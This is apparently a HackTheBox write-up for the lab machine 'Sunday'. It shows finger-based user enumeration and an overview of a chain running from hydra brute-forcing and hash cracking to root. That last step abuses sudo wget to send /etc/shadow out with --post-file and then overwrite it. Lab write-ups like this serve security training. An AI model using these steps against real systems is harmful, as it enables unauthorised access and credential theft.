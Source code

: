 ```yaml
---
title: HackTheBox - Sunday
categories: [HackTheBox, HTB-Linux]
date: 2022-09-03
tags: [linux-priv-esc/sudo/gtfo-bin]
img_path: /Writeups/HackTheBox/Linux/Sunday/images/
image:
  src: Pasted%20image%2020220904001400.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
This machine begins w/ a `finger` user enumeration, revealing user `sunny`, `sammy` on `sunday.htb`, allowing us to bruteforce w/ `hydra`, obtaining a low-privilege/`sunny` shell.

On the home directory of user `sunny`, `.bash_history` reveals an interesting file `/backups/shadow.backup`, containing hashes for user `sammy`, w/ `hashcat`, we are able to crack the hash, privilege escalating us to `sammy`.

User `sammy` is able to run `wget` as `root`, allowing us to exfiltrate `/etc/shadow` file w/ `WGET --post-file=/etc/shadow`, change `root`'s hash w/ a known hash, and replace `sunday.htb` `/etc/shadow` file w/ our edited `shadow` file w/ `WGET -O /etc/shadow`, allowing us to switch to `root` w/ sammy's password


---

| Column       | Details     |
| ------------ | ----------- |
| Box Name     | Sunday      |
| IP           | 10.10.10.76 |
| Points       | -           |
| Difficulty   | Easy        |
| Creator      | [Agent22](https://www.hackthebox.com/home/users/profile/10931)            |
| Release Date |    28-Apr-2018         |


# Recon

## TCP/79 (Finger)
### Finger
```
┌──(root💀kali)-[~/htb/sunday]
└─# finger @sunday.htb
No one logged on

┌──(root💀kali)-[~/htb/sunday]
└─# finger admin@sunday.htb
Login       Name               TTY         Idle    When    Where
adm      Admin                              < .  .  .  . >
dladm    Datalink Admin                     < .  .  .  . >
netadm   Network Admin                      < .  .  .  . >
netcfg   Network Configuratio               < .  .  .  . >
dhcpserv DHCP Configuration A               < .  .  .  . >
ikeuser  IKE Admin                          < .  .  .  . >
```